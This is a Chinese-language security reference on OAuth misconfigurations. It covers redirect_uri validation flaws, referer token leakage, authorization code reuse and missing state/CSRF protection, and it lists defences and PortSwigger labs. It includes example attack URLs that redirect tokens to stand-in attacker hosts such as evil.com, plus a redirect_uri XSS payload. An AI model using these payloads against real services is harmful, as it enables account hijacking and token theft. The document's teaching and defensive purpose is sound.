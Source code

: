 # OAuth 配置错误 (OAuth Misconfiguration)

> OAuth 是一个广泛使用的授权框架，允许第三方应用无需暴露用户凭证即可访问用户数据。然而，OAuth 的错误配置和实现可能导致严重的安全漏洞。本文档探讨了常见的 OAuth 配置错误、潜在的攻击向量以及降低这些风险的最佳实践。

## OAuth 配置错误原理

OAuth 是一个开放标准授权框架，它允许用户授权第三方应用访问其存储在另一个服务提供者上的信息，而无需将用户名和密码提供给第三方应用。

### 漏洞成因

1. **重定向URI验证不足**：
   - 未正确验证`redirect_uri`参数
   - 允许开放重定向
   - 接受不安全的URI方案（如`javascript:`）

2. **令牌管理不当**：
   - 授权码被多次使用
   - 访问令牌泄露
   - 刷新令牌未正确保护

3. **CSRF防护缺失**：
   - 未实现`state`参数
   - `state`参数可预测或可绕过
   - 未验证`state`参数

4. **客户端凭据泄露**：
   - 客户端密钥硬编码在客户端代码中
   - 私钥存储在可公开访问的位置
   - 未正确保护客户端凭据

### 攻击面

- **令牌窃取**：通过`referer`头或网络嗅探获取访问令牌
- **账户劫持**：通过开放重定向或XSS攻击劫持OAuth流程
- **跨站请求伪造(CSRF)**：利用未受保护的OAuth回调
- **权限提升**：滥用OAuth范围(scope)获取过高权限
- **信息泄露**：通过错误配置的API端点获取敏感信息

### 影响

- 用户账户被完全控制
- 敏感数据泄露
- 未授权操作执行
- 违反合规要求
- 品牌声誉受损

## 目录

- [通过referer窃取OAuth令牌](#通过referer窃取oauth令牌)
- [通过redirect_uri获取OAuth令牌](#通过redirect_uri获取oauth令牌)
- [通过redirect_uri执行XSS](#通过redirect_uri执行xss)
- [OAuth私钥泄露](#oauth私钥泄露)
- [授权码规则违反](#授权码规则违反)
- [跨站请求伪造(CSRF)](#跨站请求伪造csrf)
- [防御措施](#防御措施)
- [实验环境](#实验环境)
- [参考资料](#参考资料)

## 通过referer窃取OAuth令牌

> 如果你有HTML注入但无法实现XSS怎么办？网站上是否有OAuth实现？如果有，可以设置一个指向你服务器的img标签，看看是否有办法让受害者登录后重定向到该标签，从而通过referer头窃取OAuth令牌 - [@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544)

## 通过redirect_uri获取OAuth令牌

重定向到攻击者控制的域名以获取访问令牌：

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

重定向到可接受的开放URL以获取访问令牌：

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth实现绝不应白名单整个域名，而应只允许特定的URL，以防止`redirect_uri`被指向开放重定向。

有时需要通过更改scope为无效值来绕过对redirect_uri的过滤：

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## 通过redirect_uri执行XSS

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## OAuth私钥泄露

某些Android/iOS应用可以被反编译，从而泄露OAuth私钥。

## 授权码规则违反

> 客户端不得多次使用授权码。

如果授权码被多次使用，授权服务器必须拒绝该请求，并应撤销（在可能的情况下）之前基于该授权码颁发的所有令牌。

## 跨站请求伪造(CSRF)

未在OAuth回调中检查有效CSRF令牌的应用程序容易受到攻击。这可以通过初始化OAuth流程并拦截回调(`https://example.com/callback?code=AUTHORIZATION_CODE`)来利用。此URL可用于CSRF攻击。

> 客户端必须为其重定向URI实现CSRF保护。这通常通过要求发送到重定向URI端点的任何请求都包含一个将请求绑定到用户代理认证状态的值来实现。客户端在发出授权请求时应使用"state"请求参数将此值传递给授权服务器。

## 防御措施

1. **安全配置**：
   - 严格验证`redirect_uri`参数
   - 使用完整的URL匹配而非域名匹配
   - 禁用不安全的URI方案

2. **令牌管理**：
   - 确保授权码只能使用一次
   - 实施短期访问令牌
   - 安全存储和传输刷新令牌

3. **CSRF防护**：
   - 始终使用`state`参数
   - 确保`state`参数不可预测
   - 验证`state`参数的有效性

4. **客户端安全**：
   - 不要将客户端密钥硬编码在客户端代码中
   - 使用PKCE (Proof Key for Code Exchange)
   - 实施适当的CSP策略

5. **监控与日志**：
   - 记录所有OAuth相关活动
   - 监控异常行为
   - 实施速率限制和异常检测

## 实验环境

- [PortSwigger - 通过OAuth隐式流绕过认证](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)
- [PortSwigger - 强制OAuth配置文件链接](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)
- [PortSwigger - 通过redirect_uri劫持OAuth账户](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)
- [PortSwigger - 通过代理页面窃取OAuth访问令牌](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)
- [PortSwigger - 通过开放重定向窃取OAuth访问令牌](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

## 参考资料

- [所有Paypal OAuth令牌都属于我 - asanso - 2016年11月28日](http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html)
- [OAuth 2 - 我如何再次入侵Facebook（...并窃取有效访问令牌） - asanso - 2014年4月8日](http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html)
- [我如何再次入侵Github - Egor Homakov - 2014年2月7日](http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html)
- [微软如何将您的数据交给Facebook...以及其他所有人 - Andris Atteka - 2014年9月16日](http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html)
- [绕过Periscope管理面板的Google认证 - Jack Whitton - 2015年7月20日](https://whitton.io/articles/bypassing-google-authentication-on-periscopes-admin-panel/)
- [OAuth 2.0安全最佳实践 - OWASP](https://cheatsheetseries.owasp.org/cheatsheets/OAuth_2.0_Security_Cheat_Sheet.html)
- [OAuth 2.0威胁模型和安全考虑 - IETF RFC 6819](https://tools.ietf.org/html/rfc6819)
